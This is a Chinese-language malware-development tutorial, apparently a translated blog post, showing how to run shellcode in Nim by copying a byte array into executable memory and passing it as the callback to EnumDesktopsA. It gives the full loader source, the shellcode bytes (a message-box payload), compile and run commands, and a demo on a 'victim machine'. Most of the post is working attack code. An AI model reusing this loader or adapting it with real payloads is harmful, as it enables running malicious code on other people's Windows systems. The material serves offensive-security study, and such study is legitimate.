



\newpage
\subsection{恶意软件开发技巧：通过 EnumDesktopsA 运行载荷（简单的 Nim 示例）}

﷽

{width="80%"}

这篇文章只是检验一下在 Nim 编程语言中通过 `EnumDesktopsA` 运行载荷的正确性。

`EnumDesktopsA` 函数把每个桌面的名称传给应用程序定义的回调函数：

```cpp
BOOL EnumDesktopsA(
  HWINSTA  hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM  lParam
);
```

### 实战示例

只需把我们之前文章里的 C 代码用 Nim 语言改写一下：

```python
import system
import winim

when isMainModule:
  let payload: seq[byte] = @[
  byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
  0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
  0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
  0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
  0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
  0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
  0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
  0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
  0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
  0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
  0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
  0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
  0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
  0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]

  let mem = VirtualAlloc(
  NULL, cast[SIZE_T](payload.len), 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE
  )
  RtlMoveMemory(
  mem, 
  unsafeAddr payload[0], 
  cast[SIZE_T](payload.len)
  )
  EnumDesktopsA(
  GetProcessWindowStation(), 
  cast[DESKTOPENUMPROCA](mem), 
  cast[LPARAM](NULL)
  )
```

和往常一样，我使用 meow-meow 消息框作为载荷：

```python
let payload: seq[byte] = @[
  byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
  0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
  0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
  0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
  0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
  0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
  0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
  0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
  0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
  0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
  0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
  0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
  0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
  0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]
```

### 演示

我们来看看它的实际效果。编译它：

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

{width="80%"}

然后，直接把它移到受害机器上（我的例子是 Windows 11）并运行：

```powershell
.\hack.exe
```

{width="80%"}

我们可以看到，对 Nim 语言来说一切同样完美工作了！=..=!

[Malware development trick 20: Run shellcode via EnumDesktopsA, C example](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-06-12-malware-trick-39)
